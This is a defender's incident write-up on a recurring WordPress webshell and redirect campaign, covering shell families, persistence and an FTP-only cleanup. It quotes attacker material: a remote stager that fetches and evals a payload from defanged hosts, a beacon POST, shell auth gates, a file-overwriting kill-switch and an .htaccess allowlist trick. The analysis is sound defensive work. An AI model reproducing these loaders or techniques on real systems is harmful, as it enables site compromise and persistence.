





# A Compromise That Would Not Die

Anatomy of a persistent WordPress webshell campaign, told from the defender's chair: how one redirect payload hid in three places at once, why the first cleanup did not hold, and how a live multi-site infection was cleared blind over FTP with no shell access.

*Investigated under authorization. The affected parties are anonymized. Attacker indicators appear defanged. This is the defender's story; the actor profile and a reproduction lab are separate pieces in this series.*

## The one thing to understand first

A nonprofit's WordPress site started sending visitors to a chain of link-shortener and popunder domains. The obvious fix, find the bad file and delete it, did not work. It did not work because there was no single bad file. The same redirect payload was written into three independent layers of the site at the same time.



*The same redirect lived in the filesystem, in read-only JavaScript, and in the database. Remove one layer and the other two still fire.*

Delete the PHP and the JavaScript still redirects. Fix the JavaScript and the database rewrites the links again on the next page render. This single fact, one payload in three homes, explains everything that follows: why the site kept redirecting after each cleanup, and why verification had to change.

## The compromise that came back, twice

This was not one event. It was a cycle. Each cleanup looked complete and each time the infection returned through a layer the previous pass could not see or a foothold it could not reach.



*Single-pass cleanup failed three times because persistence outlived the files that were removed.*

The re-drop on March 29 is the tell. Two administrator accounts appeared in the database with `user_registered = 1970-10-10 10:10:10`, a timestamp WordPress never writes on its own. Their session-token metadata pointed at a single source IP and a `Chrome/90` user agent, and both were created within the same minute as two disguised plugin directories. There was no matching plugin-install request in the web logs. Accounts, files, and sessions all appeared at once, from the server side, without going through WordPress.

| Wave | Entry evidence | What returned | Why the last pass missed it |
|---|---|---|---|
| March | Interactive shells, allowlist `.htaccess` | Redirect in files + database | First discovery |
| March 29 | Server-side write (no HTTP install) | Rogue admins, camouflaged plugin dirs | Foothold outside the web files |
| April | Wordfence flags unknown admin | Redirect via DB options, static `llms.txt` | Payload in the database, not on disk |
| July | Sibling vhosts on same VPS | Redirect across `.php` / `.js` / DB | Shared host, other tenants unpatched |

The disguised plugin directories were copies of the legitimate `Protect Uploads` plugin, version `0.3`, each carrying a trojanized `index.php`. They were never activated. They existed so WordPress would report a plausible plugin and so a file scan would see a "known" plugin name.

## The shell zoo

Recovery kept surfacing more implants. This was not a single backdoor but a toolkit: interactive shells for hands-on control, file-manager shells as quieter backups, remote stagers for re-entry, and one destructive script whose only job was to break the site during remediation.



*Four roles, redundant on purpose. Remove one and another still grants access.*

| Implant | Family | Auth gate | Capability | Why it matters |
|---|---|---|---|---|
| `pdNIsBpOfQ.php` | WSO "orb yanz" | cookie `_d41` = fixed value | Full file ops + `shell_exec` | Primary hands-on shell |
| `oXwAYNxH.php` | WebShell by boot | `cc=abcd` session | File manager, no command exec | Quiet backup panel |
| `OiFZvJcyL.php` | Tiny File Manager | app login | File manager | Third-party cover |
| `FHmxCj.php` | terminal shell | minimal | Command execution | Redundant exec |
| `PIManVZAq.php` | remote stager | none local | `eval` of off-host payload | Re-entry, payload never on disk |
| `eOiNc.php` | remote loader | none local | Fetch + execute remote | Re-entry |
| `wp-blog-header.php` | sabotage | none | Overwrite `.htaccess` + `index.php` | Breaks the site / obstructs cleanup |

### WSO "orb yanz": the primary shell

The main panel (`pdNIsBpOfQ.php`) is a WSO-derived shell gated by a cookie rather than a login form. The cookie name is derived from the host and the value is a fixed hex string, so it does not look like a session in the logs. The body is a staged loader: it decodes itself, writes the result to a randomly named file under `/tmp`, includes it, and deletes it, leaving little on disk between requests.

```text
Decode chain (WSO "orb yanz"):
  base64  ->  base64  ->  base64 + gzinflate  ->  XOR(key = "wsoyanz") + base64  ->  shell

Access gate:
  Cookie: _d41 = fa704e7366d666bd        (name derived from host)

Runtime:
  writes /tmp/run_<uniqid>.php , include() , unlink()
```

Once decoded it is a full operator console: browse, upload, download, edit, create, delete, rename, `chmod`, `touch`, and raw command execution through `shell_exec($_POST['command'])`. In the logs the tells are a request to the shell path carrying `_d41=fa704e7366d666bd`, and parameters `type=1` through `type=7` for its panel actions.

### WebShell by boot: the quiet backup

The secondary panel (`oXwAYNxH.php`) trades power for stealth. It wraps its body in two Base64 layers, starts a PHP session, and checks a static password passed as the request parameter `cc`. The expected value is `abcd`; if it does not match, the script simply echoes `cc` and exits, so a casual visitor sees nothing.

```text
"WebShell by boot":
  auth   : $_SESSION['cc'] === 'abcd'   (set via ?cc=abcd)
  on fail: echo 'cc'; exit;
  exec   : none - no shell_exec/system/exec/passthru/proc_open
  scope  : browse, read, edit, rename, chmod, create, upload, delete
```

It has no command execution at all. That is deliberate: it is a filesystem backdoor, a way back in to re-plant the louder shells if they are removed. The `cc=abcd` string is easy to hunt in logs precisely because it is static.

### Remote stagers: re-entry without a payload on disk

Several files carried no payload of their own. They fetched one. A representative stager decodes a hardcoded URL, pulls its content with `file_get_contents` (falling back to cURL), and runs it:

```text
Remote stager (PIManVZAq.php and kin):
  $b = fetch("hxxps://github.eshree[.]top/fkolpsfd/olpfkchwa.txt");
  eval("?>" . base64_decode($b));

Sibling loaders / beacons:
  fetch "hxxps://vpsdd.fnftus[.]top/test/gg.txt"  and  "/door/<doact>.txt"
  beacon POST current URL to "hxxp://remote2025.byhot[.]top/index.php"
```

Because the real code lives off-host, the on-disk file never changes. The attacker can swap the second stage at any time without touching the server, and a hash-based scan of the file learns nothing. Two of these were found outside the web root entirely, in a sibling `private/` directory, as byte-identical copies of `wp-blog-header.php` and `wp-cron.php`.

### The sabotage kill-switch

One file was not a panel and not a shell. A theme-path `wp-blog-header.php`, heavily obfuscated with `goto`, existed only to destroy. It targets the site root `.htaccess` and `index.php`, and when their size differs from a chosen WordPress asset file it overwrites them with that asset's bytes and marks the result read-only (`chmod 0444`).

```text
Kill-switch logic:
  target = DOCUMENT_ROOT/.htaccess , DOCUMENT_ROOT/index.php
  for each target:
    if exists and size != asset_size:
      chmod 0644 ; overwrite with WordPress asset bytes ; chmod 0444
```

The effect is a site whose routing and entry point are replaced with irrelevant CSS or image bytes, left read-only so they resist repair. It is an anti-remediation weapon: trip it, and the defender is now also fighting a broken site.

## Concealment: hiding one shell in plain sight

The shells stayed reachable through per-directory `.htaccess` files that inverted the usual defensive rule. Instead of denying script execution, they denied everything except one randomly named PHP file.

```apache
# Per-directory .htaccess dropped alongside a shell
<FilesMatch "\.(php|phtml|php3|php5|php7|pht)$">
    Require all denied
</FilesMatch>
# ...except this one
<Files "pdNIsBpOfQ.php">
    Require all allowed
</Files>
```



*The allowlist looks like a hardening rule. It is the opposite: a private door in a locked corridor.*

This is also why a scanner is noisy here. A malware scan flagged dozens of `.htaccess` files, but most were genuine defensive deny-PHP rules from the site and its plugins. The real indicator was not "an `.htaccess` exists" but the specific shape: deny every executable extension, then allow exactly one random filename. That pattern, paired with a single odd `.php`, marked each shell.

## The gotcha: clean to curl, poisoned to a browser

Midway through cleanup a check kept lying. Fetching the homepage with `curl` returned clean HTML with no redirect. Opening the same URL in a real browser still bounced to the shortener. Both were true at once.

```text
$ curl -s https://<site>/ | grep -iE 'ushort|urshort|olame'
    (no output - looks clean)

Browser: loads /, executes theme + wp-includes .js, redirects to
         hxxp://urshort[.]com/<token>/...       (still poisoned)
```

The redirect was living in the JavaScript layer and in database-rendered page bodies, not in the initial HTML. `curl` fetches HTML and stops; it never runs the `.js`, so it never sees the redirect. Two rules came out of this:

- **Verify with a real browser, not curl.** If the payload is in `.js` or executes after load, only a rendering engine will reproduce it. Every "clean" claim in this incident was re-tested in a browser.
- **Match the family, not one literal.** The actor rotated shortener stems and TLDs: `ushort`, `urshort`, and the hyphenated `u-short`. A search for a single domain missed variants. The correct hunt was a pattern (`ur?short` plus the hyphen form), not a string.

## Cleaning it blind, over FTP

There was no shell and no SSH on this host. Everything was done over FTP against a live site, which shaped the entire method. The work ran as a loop: upload a small, single-use, token-locked PHP tool, let it act, delete it, then re-verify in a browser.



*No shell means no scripting the server directly. Each action is a throwaway PHP tool, then a browser check.*

Three constraints made this harder than a normal cleanup, and each forced a specific technique:

- **Read-only JavaScript.** The appended `.js` files were mode `444`. A PHP process cannot overwrite a read-only file, so the injected `.js` had to be handled over FTP directly: `SITE CHMOD 644`, then truncate at the injection marker, for core, theme, and plugin scripts alike. This is the layer curl-only verification never reveals.
- **A database too big to load at once.** Cleaning `post_content` with a single buffered query ran the PHP process out of memory on very large rows. The tool had to fetch the matching IDs first, then clean one post at a time. It also had to exclude tens of thousands of contact-form spam rows that matched the shortener string but were admin-only and not served to visitors, to avoid destroying legitimate data and to keep the real count honest.
- **Poison that regenerates.** The `home` and `siteurl` options, `post_content`, the Yoast and All in One SEO tables, and a static `llms.txt` file generated by the SEO plugin all carried the redirect. Fixing the options alone was not enough, because the SEO plugin would re-emit the poisoned `llms.txt` on disk. Every store had to be cleaned, and the static artifact deleted.

The tools themselves were minimal and disposable: modes to scan and list by extension, strip by truncating at the hex marker, remove decoy and webshell files, and clean the database directly through `mysqli`. Each was uploaded under a random token in its filename, run, and removed along with its JSON backups, so the cleanup left no new reachable endpoint behind.

```text
Representative cleanup pass (sanitized counts):
  .php scanned .................. thousands
  .php stripped at marker ....... thousands
  .js  chmod 644 + truncated .... hundreds
  DB posts cleaned .............. hundreds (IDs fetched, 1-by-1)
  DB options cleaned ............ home, siteurl, SEO tables
  static llms.txt ............... deleted
  verification .................. browser, per vhost
```

## Root cause, and what actually closes it

The strongest evidence points to server-side write capability, not a single stolen WordPress password. Administrator accounts, disguised plugin directories, and valid sessions all appeared in the same minute, from the server side, with no corresponding WordPress admin request in the logs. A stolen password explains a login; it does not explain files written directly into `wp-content/plugins` and users inserted straight into the database with impossible timestamps.

Because the foothold was server-side and the host was shared, closing it took more than deleting shells. What actually holds:

- Remove every shell, stager, and disguised plugin directory, and remove the allowlist `.htaccess` rules that kept them reachable, not just the files they pointed to.
- Clean the redirect from all three layers: `.php`, the read-only `.js`, and every database store, including the SEO tables and the static `llms.txt`.
- Delete the rogue administrators, force a logout of all sessions, and rotate every credential class: WordPress, database, hosting panel, FTP, and SSH.
- Review `authorized_keys` and any account-level startup files for keys or hooks that survive a file cleanup.
- Redeploy code from a known-good source rather than trusting cleaned files, and treat every tenant on the shared host as suspect, since the campaign moved between sibling sites.
- Verify in a browser, match the IOC family rather than one literal, and keep monitoring the indicator list after the site looks clean.

The compromise came back twice because each pass treated a symptom in one layer. It stopped coming back when the response addressed the foothold, the persistence, and all three homes of the payload together.

Continue with the [indicators of compromise and YARA rules](./IOCs.md). The threat-actor profile (who ran this and on what infrastructure) and a safe reproduction lab are the next two pieces in this series.
